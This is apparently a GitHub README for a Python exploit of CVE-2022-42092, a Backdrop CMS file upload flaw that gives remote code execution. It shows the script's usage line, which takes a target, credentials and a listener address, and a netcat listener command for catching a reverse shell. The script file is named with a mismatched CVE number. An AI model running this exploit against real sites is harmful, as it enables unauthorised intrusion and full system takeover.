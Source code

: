 # CVE-2022-42092 Python Exploit

## 🔥 Description
This Python exploit script targets an unrestricted file upload in Backdrop CMS to achieve a Remote Code Execution (RCE).

## ⚠️ Affected Versions
Version 1.22.0 and prior version
Note: Backdrop CMS disputes this and argues that advanced permissions are required, which is why it might still exist in versions above 1.22.0. I’m guessing they mean you would need to have admin access first. Still, it’s a valid vulnerability, and it can definitely be exploited to gain full system control.

## ⚙️ Usage
```shell
python3 CVE-2022-42902.py <target_url> <username> <password> <listener_ip> <listener_port>
```
Important: Start your listener before running the script:
```shell
nc -lvnp <listener_port>
```

## 💻 Sample Run
![image](https://github.com/user-attachments/assets/62f02ffc-3de5-4b72-b274-9575e3b4780f)

## ℹ️ Reference
- [CVE-2022-42092 Detail](https://nvd.nist.gov/vuln/detail/CVE-2022-42092)
